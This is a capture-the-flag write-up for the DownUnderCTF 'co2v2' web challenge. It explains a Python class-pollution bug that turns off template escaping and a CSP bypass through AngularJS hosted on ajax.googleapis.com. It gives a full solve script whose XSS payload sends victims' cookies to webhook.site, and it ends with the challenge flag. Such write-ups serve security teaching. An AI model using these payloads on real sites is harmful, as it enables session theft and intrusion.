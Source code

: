 ```yaml
---
ai_date: '2025-04-27 05:15:31'
ai_summary: Disabling XSS protection and exploiting prototype pollution to manipulate
  global variables
ai_tags:
- xss
- prototype-pollution
- csp-bypass
created: 2024-07-06T16:35
description: '"Payload primed, initiate deployment."'
points: 222
solves: 59
tags:
- csp-bypass
title: co2v2
updated: 2024-08-05T19:46
---
```


## Analysis

### `/admin/update-accepted-templates`
This route changes the environment, if we can change the value of `TEMPLATES_ESCAPE_ALL` to `False`, we will disable XSS protection.

### `/save_feedback`
This route uses a fancy merge function that after verification, is indeed vulnerable to "prototype" pollution.

### `script-src 'self' 'nonce-{nonce}' https://ajax.googleapis.com;`
The CSP rule can be bypassed by using libraries from `https://ajax.googleapis.com`, such as the infamous angular xss method.

## "Prototype" Pollution

We are essentially changing values on global by hijacking the merge command to do our bidding.

```json
{
    "__class__": {
        "__init__": {
            "__globals__": {
                "TEMPLATES_ESCAPE_ALL": false,
                "os":{"environ":{"APP_URL":"hijacked"}}
            }
        }
    }
}
```

## Attack Flow

1. Sign up & sign in
2. `/create_post` XSS payload note (angular + prototype)
3. `/save_feedback` with pollution payload to change value of `TEMPLATES_ESCAPE_ALL` to false.
4. `/admin/update-accepted-templates` Ask server to update policy (it will use the new value of `TEMPLATES_ESCAPE_ALL=False`)
5. `/api/v1/report` (no modification to default environ needed)
6. Check webhook

## Solve Script

```python
import requests
import random
import string

webhook = "https://webhook.site"
target = "https://web-co2v2-f4243a8e077ecefb.2024.ductf.dev"
session = requests.Session()


def generate_random_string(length):
    letters = string.ascii_letters
    return ''.join(random.choice(letters) for _ in range(length))


def regAndLogin():

    username = generate_random_string(6)
    password = generate_random_string(6)

    data = session.post(f'{target}/register', data={
        "username": username,
        "password": password
    })
    if data.status_code != 200:
        print("failed to register", data.status_code)
        exit(1)
    data = session.post(f'{target}/login', data={
        "username": username,
        "password": password
    })
    if data.status_code != 200:
        print("failed to login", data.status_code)
        exit(1)
    print("logged in")


def createPost():
    data = session.post(f'{target}/create_post', data={
        "title": f"""
<script src=https://ajax.googleapis.com/ajax/libs/angularjs/1.0.1/angular.js></script>
<script src=https://ajax.googleapis.com/ajax/libs/prototype/1.7.2.0/prototype.js></script>
<body class="ng-app" ng-csp>
{{{{$on.curry.call().fetch("{webhook}?"+$on.curry.call().document.cookie.toString(),{{mode:"no-cors"}})}}}}
</body>
        """,
        "content": """script loader""",
        "public": 1
    })
    if data.status_code != 200:
        print("failed to create post", data.status_code, data.text)
        exit(1)
    print("payload created")


def polluteRemote():
    data = session.post(f'{target}/save_feedback', json={
        "__class__": {
            "__init__": {
                "__globals__": {
                    "TEMPLATES_ESCAPE_ALL": False,
                    # "os": {"environ": {"APP_URL": url}} # yes i can change environ
                }
            }
        }
    })
    print("pollution complete", data.text)


def disableProtection():
    data = session.post(f'{target}/admin/update-accepted-templates', json={
        'policy': 'strict'
    })
    print("protection disabled", data.text)


def activatePayload():
    data = session.get(f'{target}/api/v1/report')
    print("payload activated", data.text)


regAndLogin()
createPost()
polluteRemote()  # "http://co2v2:1337")
disableProtection()
activatePayload()

# logged in
# payload created
# pollution complete {"success":"true"}
# protection disabled {"success":"true"}
# payload activated {"status":202}
```

```flag
DUCTF{_1_d3cid3_wh4ts_esc4p3d_}
```
